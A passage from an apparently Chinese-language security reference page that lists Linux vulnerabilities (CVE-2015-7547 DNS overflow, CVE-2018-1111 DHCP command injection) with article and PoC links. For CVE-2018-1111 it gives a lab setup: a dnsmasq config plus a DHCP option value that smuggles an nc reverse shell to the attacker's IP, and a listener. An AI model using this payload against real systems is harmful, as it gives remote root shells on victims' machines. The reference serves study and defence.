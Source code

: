     简单的说，只要控制了 linux 服务器所访问的 DNS 服务器，或者对 linux 服务器的流量进行劫持；那么，在 Linux 服务器做 DNS 请求时，恶意 DNS 服务器就可以对 linux 服务器进行远程溢出攻击，获取服务器权限。

- 相关文章
    - [CVE-2015-7547 - sevck](https://www.cnblogs.com/sevck/p/5225639.html)
    - [CVE-2015-7547的漏洞分析](http://blog.nsfocus.net/cve-2015-7547-vulnerability-analysis/)

- POC | Payload | exp
    - [fjserna/CVE-2015-7547](https://github.com/fjserna/CVE-2015-7547)

**CVE-2018-1111** DHCP 客户端脚本代码执行漏洞
- 简介

    Fedora 是由 Fedora 项目社区开发、美国红帽（Red Hat）公司赞助的一套基于 Linux 的操作系统。DHCP packages 是其中的一个动态主机配置协议软件包。

    Fedora 28 及之前版本、Red Hat Enterprise Linux 6 和 7 中的 DHCP 包的 NetworkManager integration 脚本存在命令注入漏洞。本地攻击者可通过伪造 DHCP 响应利用该漏洞在系统以 root 权限执行任意命令。

- 相关文章
    - [CVE-2018-1111 复现环境搭建与 dhcp 命令注入](https://www.freebuf.com/articles/web/191884.html)
    - [DHCP 客户端脚本代码执行漏洞分析 (CVE-2018-1111) ](https://xz.aliyun.com/t/2455)

- POC | Payload | exp
    - [knqyf263/CVE-2018-1111](https://github.com/knqyf263/CVE-2018-1111)
    - [kkirsche/CVE-2018-1111](https://github.com/kkirsche/CVE-2018-1111)

- 本地利用方法
    ```
    attacker: kali linux 2018 x64 192.168.71.5
    victim: Centos 7 x64 192.168.71.10
    ```
    ```vim
    vim dnsmasq.conf
    bind-interfaces
    interface=eth0
    except-interface=lo
    dhcp-range=192.168.71.10,192.168.71.20,12h
    dhcp-option=3,192.168.71.5
    dhcp-option=6,192.168.71.5
    log-queries
    log-facility=/var/log/dnsmasq.log
    ```
    ```
    dnsmasq -dC dnsmasq.conf --dhcp-option="252,malayke'&nc -e /bin/bash192.168.71.5 6666 #"
    nc -l -p 6666 -v
    ```
    重启 CentOS 的网络服务,然后 shell 就反弹回来了

---

## Windows

**相关资源**
- [WindowsExploits/Exploits](https://github.com/WindowsExploits/Exploits)- Windows Exploits
- [Ascotbe/Kernelhub](https://github.com/Ascotbe/Kernelhub)

---